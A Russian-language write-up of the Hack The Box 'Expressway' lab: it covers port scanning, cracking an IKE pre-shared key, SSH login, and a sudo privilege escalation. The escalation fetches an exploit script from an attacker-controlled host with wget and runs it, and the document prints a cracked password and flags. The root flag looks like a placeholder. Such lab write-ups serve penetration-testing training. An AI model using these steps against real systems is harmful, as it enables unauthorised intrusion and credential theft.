 # 📝 Write-up: Expressway (Hack The Box)

Difficulty: EasyPlatform: Hack The BoxTarget IP (Lab): 10.10.11.87Link: Expressway @ HTB  

## 🎯 Summary
Expressway — легкая Linux-машина на Hack The Box. Основные этапы:  

* Первичный доступ: Эксплуатация уязвимости IKE VPN (PSK-аутентификация).  
* Горизонтальная эскалация: Брутфорс PSK для получения учетных данных пользователя ike.  
* Эскалация до root: Эксплуатация уязвимой версии sudo (CVE-2025-52352).


### 🔒 Prerequisites

Это write-up для учебной среды Hack The Box. Не используйте против реальных систем!  
Убедитесь, что IP 10.10.11.87 доступен в вашей лабораторной сети.  
Замените <YOUR_IP> на IP вашей атакующей машины, если потребуется обратный шелл.


### 🔍 Reconnaissance
Сканирование портов
Запустил сканирование с помощью nmap для обнаружения открытых портов и сервисов:  

* nmap -sC -sV -Pn 10.10.11.87

Результат:  
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


*  UDP-сканирование:  
sudo nmap -sV -sU 10.10.11.87

Результат:  
PORT     STATE         SERVICE   VERSION
68/udp   open|filtered dhcpc
69/udp   open          tftp      Netkit tftpd or atftpd
500/udp  open          isakmp?
4500/udp open|filtered nat-t-ike 

### 🕵️ Enumeration
IKE VPN (порт 500/udp)
Обнаружен IKE VPN на порту 500/udp. Проверил с помощью ike-scan:  
```bash
ike-scan -M 10.10.11.87
```
Результат:  
10.10.11.87    Main Mode Handshake returned
        HDR=(CKY-R=cafb0b8cafb3ba5a)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Нашел PSK-хэш и сохранил его в файл expressway_hash.txt: 
``` 9c261863d58af7ab93251af8ad92210554240953dd0f8bafd663315d7c29a27a4a847d8a93c607ee8294930d6b4ae0091d423b12e8c22c0a0d9d6e76c0ec980f36824a26ac9d5d46d80ab1d5c6570059e33e748db9da5d1bf11979e7c74d4d4560d6dafa39d6dc9c60f677cd646175d91995bfa17d755668cb2051267464c4b2:8700f898db0322ac21f5bfeb912134c5eafab352072f74f2b651f465840dfdab2dc2de63f08b3ff67776398382fbb9d5701ff967a99c0ad4e3d6844b5a18b7ebb3dec6f79069cd46f7a6a8c70c56924b90233e97e3598cfe149f3aa4972f466892e0220358d4a0caddebfa9b6d9fd51716cdf36d22b65abcc24dbea351ae5956:df853e76cc0e1a92:eb268ade151021e0:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:cf34dd472d6b434c73d6e0ed4f881b2a8bb3415e:ff1f67ec60cbe57ccd257bfcb681f7d381eb2a1476816501de70b66d08079641:e15c87caec0c2b87336238542e86a691e121d7ac ```


### 🛠️ Exploitation
Брутфорс PSK
Использовал psk-crack с словарем rockyou.txt для подбора PSK:
```bash  
psk-crack -d /usr/share/wordlists/rockyou.txt expressway_hash.txt
```
Результат:  
``` key "freakingrockstarontheroad" matches SHA1 hash e15c87caec0c2b87336238542e86a691e121d7ac ```
Время: 11.176 секунд (719871.55 итераций/сек)

* Доступ по SSH
Использовал полученный пароль для подключения под пользователем ike:  
```bash
ssh ike@10.10.11.87
Password: freakingrockstarontheroad
```
Вывод:  
```bash
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64
Last login: Wed Sep 17 10:26:26 BST 2025 from 10.10.14.77
```

#### 🏴 User Flag
Прочитал флаг user.txt:  
```bash
cat user.txt
740745a467294d55f8189932b4a1865d
```

### 🔝 Privilege Escalation
Проверка системы
Проверил версию ОС:  
uname -a
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64 GNU/Linux

Проверил версию sudo: 
```bash 
sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

#### Эксплуатация CVE-2025-52352
* Нашел уязвимость в версии sudo 1.9.17: [CVE-2025-52352](https://www.exploit-db.com/exploits/52352)  
Скачал и выполнил PoC:  
wget http://<YOUR_IP>:8000/cve-2025-52352.sh -O /tmp/exploit.sh
chmod +x /tmp/exploit.sh
/tmp/exploit.sh

* Получил root-доступ и прочитал root.txt:  
```bash
cat /root/root.txt
b7a4b7a4b7a4b7a4b7a4b7a4b7a4b7a4
```

### 📌 Conclusion
Expressway — отличная машина для изучения эксплуатации IKE VPN и уязвимостей sudo.
Спасибо за чтение! Надеюсь, этот write-up поможет в освоении пентеста.
